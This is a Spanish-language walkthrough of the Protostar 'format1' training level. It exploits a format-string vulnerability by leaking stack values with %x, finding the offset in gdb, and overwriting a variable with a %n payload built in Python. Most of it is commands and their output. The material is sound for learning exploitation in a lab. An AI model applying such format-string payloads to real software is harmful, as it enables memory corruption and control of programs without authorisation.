 
---------------------------------------------------------------------------
## Sobreescribir una variable -> [format1](https://exploit.education/protostar/format-one/)

Este binario toma un argumento (al que llama "string"), lo mete en la funcion **printf()** y te imprime dicho argumento

  	```console
  	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA
  	AAA[user@protostar]-[/opt/protostar/bin]:$ 
  	```
Como no hace un salto de linea, lo ponemos nosotros concatenando "; echo"
  
	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 AAA; echo
	AAA
    	[user@protostar]-[/opt/protostar/bin]:$ 
  	```
¿Si en vez de pasarle una "A" le pasamos una cadena de formateo como %x (numero hexadecimal)?
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 %x; echo
	804960c
   	[user@protostar]-[/opt/protostar/bin]:$ ./format1 "%x %x"; echo
   	804960c bffff6e8
  	```
 Este "bffff6e8" parece una direccion de la pila...
 
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ python -c "print('%x'*4)"  > /tmp/pattern
    	[user@protostar]-[/opt/protostar/bin]:$ gdb ./format1
    	(gdb) disas vuln
    	Dump of assembler code for function vuln:
    	0x080483f4 <vuln+0>:	push   %ebp
   	0x080483f5 <vuln+1>:	mov    %esp,%ebp
  	0x080483f7 <vuln+3>:	sub    $0x18,%esp
    	0x080483fa <vuln+6>:	mov    0x8(%ebp),%eax
    	0x080483fd <vuln+9>:	mov    %eax,(%esp)
    	0x08048400 <vuln+12>:	call   0x8048320 <printf@plt>
    	0x08048405 <vuln+17>:	mov    0x8049638,%eax
    	0x0804840a <vuln+22>:	test   %eax,%eax
    	0x0804840c <vuln+24>:	je     0x804841a <vuln+38>
    	0x0804840e <vuln+26>:	movl   $0x8048500,(%esp)
    	0x08048415 <vuln+33>:	call   0x8048330 <puts@plt>
    	0x0804841a <vuln+38>:	leave  
    	0x0804841b <vuln+39>:	ret    
    	End of assembler dump.
    	(gdb) b *0x08048400
   	(gdb) run < /tmp/pattern
  	Starting program: /opt/protostar/bin/format1 < /tmp/pattern
    	Breakpoint 4, 0x08048400 in vuln (string=0x0) at format1/format1.c:10
    	10	format1/format1.c: No such file or directory.
      	in format1/format1.c
    	(gdb) x/40wx $esp
    	0xbffff670:	0x00000000	0x0804960c	0xbffff6a8	0x08048469
    	0xbffff680:	0xb7fd8304	0xb7fd7ff4	0xbffff6a8	0x08048435
    	0xbffff690:	0x00000000	0xb7ff1040	0x0804845b	0xb7fd7ff4
    	0xbffff6a0:	0x08048450	0x00000000	0xbffff728	0xb7eadc76
    	0xbffff6b0:	0x00000001	0xbffff754	0xbffff75c	0xb7fe1848
    	0xbffff6c0:	0xbffff710	0xffffffff	0xb7ffeff4	0x0804824d
    	0xbffff6d0:	0x00000001	0xbffff710	0xb7ff0626	0xb7fffab0
    	0xbffff6e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
    	0xbffff6f0:	0xbffff728	0x8160bf58	0xab35a948	0x00000000
    	0xbffff700:	0x00000000	0x00000000	0x00000001	0x08048340
  	```
    
Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
     	8048469
    	b7fd8304
    	b7fd7ff4
    	...
    	2e000000
    	726f662f
    	3174616d
    	41414100
    	42424241
    	7838252e
    	7838252e
  	```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	726f662f
    	3174616d
    	41414100
    	42424241
    	```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
   	bffff488
    	...
    	41414141
    	78382542
    	7838252e
    	7838252e
    	7838252e
    	```
   Se quitan mas "x"

  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	2f2e0000
    	6d726f66
    	317461
    	41414141
    	```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
	08049638 g     O .bss	00000004              target
    	```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*
  Ahora sustituimos las "AAAA" por esa dirección (ambas cosas ocupan 4 bytes).
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%x')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	8049638
    	```
  Perfecto, la dirección de memoria se ha alineado perfectamente. Ahora hay que sobrrescribirla cambiando la "%x" por "%n"
  
  	```console
	[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('\x38\x96\x04\x08'+'B'+'%8x.'*136 + '%n')") | tr "." "\n" ;echo
	AAAABBBB 804960c
    	bffff488
    	...
    	317461
    	you have modified the target :)
    	```
  Y ya está, primer format completado.

  
    
   
